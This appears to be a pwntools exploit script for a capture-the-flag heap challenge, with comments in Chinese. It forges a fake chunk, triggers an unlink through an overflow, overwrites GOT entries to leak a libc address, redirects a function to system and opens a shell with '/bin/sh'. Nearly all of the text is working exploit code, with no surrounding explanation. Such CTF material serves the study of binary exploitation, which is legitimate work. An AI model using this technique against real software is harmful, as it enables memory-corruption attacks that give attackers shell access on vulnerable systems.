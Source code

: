 ```python
def edit(index, size, content):
    p.recvuntil('Your choice: ')
    p.sendline('4')
    p.recvuntil('Which book to write?')
    p.sendline(str(index))
    p.recvuntil("how big?")
    p.sendline(str(size))
    p.recvuntil("Content: ")
    p.sendline(content)

def debug():
    pid = util.proc.pidof(p)[0]
    print('pid:{}'.format(pid))
    gdb.attach(pid)
    pause()


# 创建四个chunk 
malloc(0, 0x30)
malloc(1, 0xf0)
malloc(2, 0x100)
malloc(3, 0x100)


# 下面伪造fake chunk，并通过溢出修改第二个chunk的prev_inuse，prev_size等
fd = 0x602300 - 0x18
bk = 0x602300 - 0x10
py = b''
py += p64(0) + p64(0x31)
py += p64(fd) + p64(bk)
py += p64(0) + p64(0)
py += p64(0x30) + p64(0x100)
py += p64(0) + p64(0)
py += p64(0) + p64(0)
edit(0, 0x60, py)
# free会触发unlink
free(1)

# 接下来，edit第一个chunk会导致本来指向这些chunk的指针指向别的地方
atoi_got = elf.got['atoi']
free_got = elf.got['free']
py = b''
py += b'a'*0x18 + p64(atoi_got) + p64(atoi_got) + p64(free_got)
edit(0, 0x30, py)


# 这里将free的got表指向puts_plt，调用free时会变成调用puts
edit(2, 0x8, p64(elf.plt['puts']))
# 下面是程序里的free，其实是执行free(chunk[0])，也就是puts(chunk[0])，会打印atoi的got表
free(0)
a = p.recv()
atoi_libc = u64(p.recv(6).ljust(8, b'\x00'))
libc_base = atoi_libc - libc.symbols['atoi']
system_libc = libc_base + libc.symbols['system']
edit(1, 0x8, p64(system_libc))
p.recvuntil('Your choice: ')
p.sendline(b'/bin/sh\x00')
p.interactive()
```
